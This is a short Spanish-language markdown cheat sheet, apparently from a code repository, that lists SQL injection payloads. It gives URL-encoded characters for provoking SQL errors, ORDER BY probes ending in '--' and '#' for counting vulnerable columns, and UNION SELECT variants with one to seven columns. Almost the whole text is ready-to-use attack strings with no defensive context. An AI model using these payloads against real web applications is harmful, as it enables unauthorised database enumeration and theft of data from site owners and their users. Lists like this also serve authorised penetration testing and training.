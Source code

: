 ```
```

## Ejemplos de payloads sql injection

### Detectar un error sql 
```
' = %27
" = %22
# = %23
; = %3B
```

### Detectar numero de columnas vulnerables 
```
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10# 

```

### Union Select Payloads

```
 UNION SELECT 1
 UNION SELECT 1,2
 UNION SELECT 1,2,3
 UNION SELECT 1,2,3,4
 UNION SELECT 1,2,3,4,5
 UNION SELECT 1,2,3,4,5,6
 UNION SELECT 1,2,3,4,5,6,7

 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 
 UNION(SELECT 1)
 UNION(SELECT 1,2)
 UNION(SELECT 1,2,3)
 UNION(SELECT 1,2,3,4)
 UNION(SELECT 1,2,3,4,5)
 UNION(SELECT 1,2,3,4,5,6)
```